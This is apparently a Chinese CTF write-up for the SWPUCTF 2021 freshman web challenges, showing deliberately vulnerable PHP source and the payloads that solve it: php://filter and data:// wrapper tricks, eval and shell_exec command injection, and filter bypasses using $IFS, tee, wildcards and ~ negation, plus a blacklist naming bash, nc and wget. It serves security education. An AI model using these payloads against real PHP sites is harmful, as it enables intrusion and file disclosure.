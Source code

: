 ```yaml
---
title: SWPUCTF 2021 新生赛
date: 2022-05-14 22:12:01
tags:
- PHP伪协议
- RCE
categories: CTF-Web
my: SWPUCTF_freshman-match
---
```


 

部分题目WP

## **PseudoProtocols**(伪协议)

看到题目就是伪协议   直接用下面代码查看hint.php

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

base64解码后看见

```
<?php
//go to /test2222222222222.php
?>
```

直接访问出现下列代码

```
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

第一种解法用下面的payload就可以得到flag

```
?a=data://text/plain,I want flag
```

第二种解法

```
?a=php://input
```

用burp  POST传参也能得到flag

![](https://s2.loli.net/2022/05/15/dsHFWywYONq2LMp.png)

## **include**

直接由题意传file    直接?file=1

![](https://s2.loli.net/2022/05/15/eDBxHYfQFMbz2uN.png)

"allow_url_include"，"on"意味存在着文件包含漏洞  payload如下  也可查看[php伪协议](https://segmentfault.com/a/1190000018991087)

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![](https://s2.loli.net/2022/05/15/DwGZmnfPHuSzTq1.png)

再进行base64解码得到flag

## **RCE部分**

### **easyrce**

源码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?>
```

有eval 但是是get传参 将传入的内容作为php代码执行 利用php可以执行Linux命令

用下列payload查看根目录

```
?url=system('ls /');
```

![](https://s2.loli.net/2022/05/15/OukxLdMYW93ZaoQ.png)

发现在根目录下  直接cat指令读取文件  拿到flag

```
?url=system('cat /flllllaaaaaaggggggg');
```

### **babyrce**

源码：

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

看见题目 cookie传参，键名为admin，值为1，直接传

![](https://s2.loli.net/2022/05/15/ns2AIqJNZ9OrdTc.png)

发现rasalghul.php我们去访问

```
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');   //这里过滤了空格 如果 用到了空格输出nonono
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

我们可以用其他符号代替$IFS、IFS$9、%09具体可以百度

直接看根目录  发现 flag  

![](https://s2.loli.net/2022/05/15/ZmyugPC1AJQX9I6.png)

然后cat 拿到flag

![](https://s2.loli.net/2022/05/15/UirzT23vXxMLuRW.png)



### **finalyrce**

```
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

这道题就过滤了很多字符   通过[Linux tee命令](https://www.runoob.com/linux/linux-comm-tee.html)写入文件 用dir / | tee guxi可以在当前目录下生成guxi文件

然后去访问url/guxi就可以访问guxi文件

![](https://s2.loli.net/2022/05/15/SbpIiMAmDntJqTO.png)

找到flag  可以用tac代替cat命令  发现直接读取不行   仔细代码审计发现过滤了la没有过滤?我们可以用?代替字母即可

![](https://s2.loli.net/2022/05/15/ifIbCKlPdZozrcn.png)

然后再访问guxi文件就能看见flag

![](https://s2.loli.net/2022/05/15/G8anzRiSHvUb7Z4.png)

### **hardrce**

源码:

```
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 蔡总说：注意审题！！！
```

打开题目 我直接人麻了  过滤了很多  但仔细看有一个符号没有被过滤“~”取反符号

具体可查看[此文章](https://blog.csdn.net/WilliamsWayne/article/details/78259501)

百度用php在线工具   直接取反命令

![](https://s2.loli.net/2022/05/15/5prIwVCvGzoiKU3.png)

查看到了根目录 

![](https://s2.loli.net/2022/05/15/ZhM9e5Hz2Vrj6Uy.png)

在取反cat命令

![](https://s2.loli.net/2022/05/15/an5mp489BQt3L2z.png)

直接拿到flag

![](https://s2.loli.net/2022/05/15/FThj4ElRCK9rVwL.png)



还有一道我太菜了 写不来
